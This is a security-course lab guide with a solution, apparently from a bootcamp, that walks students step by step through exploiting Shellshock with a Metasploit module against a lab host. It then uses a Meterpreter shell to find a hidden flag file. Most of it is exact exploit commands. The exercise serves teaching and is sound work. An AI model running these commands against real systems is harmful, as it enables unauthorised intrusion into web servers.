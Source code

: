 ## Student Guide: Attacking Shellshock with Metasploit 
 
 The goal of this activity was to practice using the Metasploit framework to exploit Shellshock.

---
 
1. Type the command that launches Metasploit:
 
      - `msfconsole`
 
   ![Meta 1](Images/META_1.png)
 
2. Type the command that performs a search for the `shellshock` exploit module:
 
   - `search shellshock`
 
   ![Meta 2](Images/META_2.png)
 
3. Type the command that loads the `exploit/multi/http/apache_mod_cgi_bash_env_exec` module:
 
   - `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
 
4. Type the command that shows the module options:
 
   - `show options`
 
   ![Meta 3](Images/META_3.png)
 
5. Now that the `exploit/multi/http/apache_mod_cgi_bash_env_exec` module is loaded, configure the module's target using the victim's IP address and specify which MSF exploit module to use.
 
   - Type the command that sets the `RHOSTS` option to the given target's IP address:
 
      - `set RHOSTS 192.168.0.21`
 
   - Type the command that sets the `TARGETURI` path to use the exploit module `/cgi-bin/vulnerable`:
 
      - `set TARGETURI /cgi-bin/vulnerable`
  
 6. Type the command that runs the exploit.
 
      - `run` or `exploit`
 
7. A Meterpreter session should now be open. 
   - Try to locate the hidden `flag` file on the exploited machine. 
   - **Hint** We'll cover this more in class next time, but try using Meterpreter's `shell` command to gain a **bash shell** into the victims machine.
   
`Solution:`

There are a few different to locate the locate the hidden flag. One of the easiest ways to locate the flag is by using the meterpreter's built in `shell` command to get a bash shell into the victims machine. From there, you can navigate through the different directories and use the `find` command to locate the flag. 
- Run: `shell` to get the shell command. 
- Run: `cd /` to the current directory to the root directory. 
- Run: `find . -iname flag` to find the flag file. 

You'll find the flag file in the `/var/www/secrets` directory. 

 
   ![Meta 4](Images/META_4.png)
   
____
  
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
